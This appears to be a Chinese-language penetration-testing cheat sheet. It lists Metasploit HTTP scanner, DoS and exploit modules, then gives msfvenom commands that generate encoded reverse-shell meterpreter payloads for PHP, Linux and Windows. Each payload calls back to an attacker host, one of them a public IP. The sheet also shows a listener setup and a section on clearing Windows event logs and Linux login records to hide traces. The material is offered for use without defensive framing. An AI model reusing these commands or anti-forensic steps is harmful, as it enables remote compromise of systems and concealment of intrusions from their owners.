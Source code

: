         Module auxiliary/scanner/http/webdav_internal_ip Module auxiliary/scanner/http/webdav_scanner
        Module auxiliary/scanner/http/webdav_website_content 文件目录扫描模块
        Module auxiliary/dos/http/apache_range_dos
        Module auxiliary/scanner/http/backup_file
        Module auxiliary/scanner/http/brute_dirs
        Module auxiliary/scanner/http/copy_of_file
        Module auxiliary/scanner/http/dir_listing
        Module auxiliary/scanner/http/dir_scanner
        Module auxiliary/scanner/http/dir_webdav_unicode_bypass Module auxiliary/scanner/http/file_same_name_dir
        Module auxiliary/scanner/http/files_dir
        Module auxiliary/scanner/http/http_put
        Module auxiliary/scanner/http/ms09_020_webdav_unicode_bypass Module auxiliary/scanner/http/prev_dir_same_name_file
        Module auxiliary/scanner/http/replace_ext
        Module auxiliary/scanner/http/soap_xml
        Module auxiliary/scanner/http/trace_axd
        Module auxiliary/scanner/http/verb_auth_bypass

        web 应用程序漏洞扫描模块
        Module auxiliary/scanner/http/blind_sql_query Module auxiliary/scanner/http/error_sql_injection Module auxiliary/scanner/http/http_traversal
        Module auxiliary/scanner/http/rails_mass_assignment Module exploit/multi/http/lcms_php_exec

## payload生成

### php rev
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=119.29.226.211 LPORT=2341 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### linux
```bash
msfvenom -p payload/linux/x86/meterpreter/reverse_tcp  LHOST=192.168.0.120 LPORT=4433 -f elf >shell.elf
```
### win
```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=192.168.203.139 LPORT=2341 -f exe > abc.exe
```
### 监听

```bash
use exploit/multi/handler
set payload 
sey LHOST
set LPORT
```

### 后渗透过程
https://zhuanlan.zhihu.com/p/31060056
http://www.freebuf.com/articles/system/5884.html
https://github.com/aleenzz/Cobalt_Strike_wiki


### 痕迹清除
win：https://github.com/QAX-A-Team/EventCleaner
Linux /var/log/ lastlog wtmp btmp